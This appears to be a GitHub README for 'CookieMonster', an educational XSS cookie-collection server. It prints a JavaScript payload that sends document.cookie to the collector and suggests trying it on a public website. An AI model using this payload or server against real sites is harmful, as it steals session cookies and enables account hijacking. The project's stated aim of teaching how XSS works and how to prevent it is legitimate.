 
# CookieMonster
Cross site scripting(XSS) cookie-fetch server, used for educational perpose only

Commands:

    npm install : install all dependencies
    npm start : starting the server
    npm run-script run : opens browser whilst starting the server

To use:

    Notice: This only works locally(logically), which means you 
    have to have a local server running with your website (and a database for comments/usercontent) 
    in order to test it.
    Go to the url: localhost:5123
    
    Copy and paste the content of payload.txt : 
        document.location='http://localhost:5123/cookie/'+document.cookie;
    into the console of another browser window or another device on your network.
    This textstring might be what the user run if your website is not secure.
    
    To test, try using the payload on a website like https://developer.mozilla.org/en-US/
    and see if the server retrives the cookie.
    
    Look in the console with cookiemonster to see the content of the cookie.

    Alternativly, press space to spawn unlimited amount of cookies!
    
Contributions:

    Any contributions is appreaciated to improve the understanding 
    of how XSS works and how to prevent it.
    
    
